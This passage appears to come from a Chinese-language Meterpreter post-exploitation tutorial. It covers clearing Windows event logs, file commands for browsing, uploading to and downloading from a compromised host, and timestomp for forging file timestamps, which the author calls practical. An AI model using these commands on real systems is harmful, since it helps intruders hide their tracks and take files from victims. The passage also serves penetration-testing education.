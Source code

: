 执行命令前存在很多日志痕迹：

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibkT8iakmw2x4HxjqfzXe9brQXTdZ0fb42f7x8gfERKkhWcpOb7ePeibcQ/640?wx_fmt=png)

执行后：

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibANhpA4UJz7AqIlnAiaZN5YR47kZMdqjS0XcDF3I3GAkW2KntrZKfSXA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibamXWKBqHo2zQNb4rO5PBQXDiaaZGVgOvmFibuuUj8dY1bCccDJ8FcFpQ/640?wx_fmt=png)

这里必须得是 system 权限！！！

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4Srhyaziaib4zH7mFmk5SrViavqq7JszZhoJhlv8lXib9v7jlRichibqEnQdsicxkjPQeQ/640?wx_fmt=png)

清理后会有一个日志清除记录！！

2. 文件命令

1) 基础文件系统命令

演示：  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4Srhyaziaibz7rLOfS3bicAUjyaNduHr4Vr13j35pzdMibIZiaEaAUJslx1eyHZENM5g/640?wx_fmt=png)

```
getwd 或者 pwd     # 查看当前工作目录  
ls
cd
cat C://Users//dayu//Desktop//dayu.txt    # 查看文件内容
upload /root/Desktop/test-dayu.txt C://Users//dayu//Desktop    # 上传文件到目标机上
download C://Users//dayu//Desktop//dayu.txt /root/Desktop/    # 下载文件到本机上
edit C://Users//dayu//Desktop//1.txt     #会进入编辑模式，编辑或创建文件，没有的话，会新建文件
rm C://Users//dayu//Desktop//1.txt  #删除文件
mkdir lltest2      #只能在当前目录下创建文件夹
rmdir lltest2     #只能删除当前目录下文件夹
getlwd  或者 lpwd   #操作攻击者主机 查看当前目录
lcd /tmp         #操作攻击者主机 切换目
```

2) 伪造时间戳

timestomp 命令存在好几个功能，这里记住`-v和-f`即可…

演示：

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibdDoUmBLkF9gIFdGSSNT5HkALxibbnlKvjzFNicasZWbRfZs4Awzj31ow/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibcqEOibYIFQBj9VgUu3lBIZCBtcoEdSqT0obbzTKYUznb547YJA4DoMA/640?wx_fmt=png)

```
timestomp -v C:/phpStudy/manual.chm     #查看时间戳
timestomp C://2.txt -f C://1.txt     #将1.txt的时间戳复制给2.txt
```

伪造时间信息，挺实用！

3) 搜索文件  
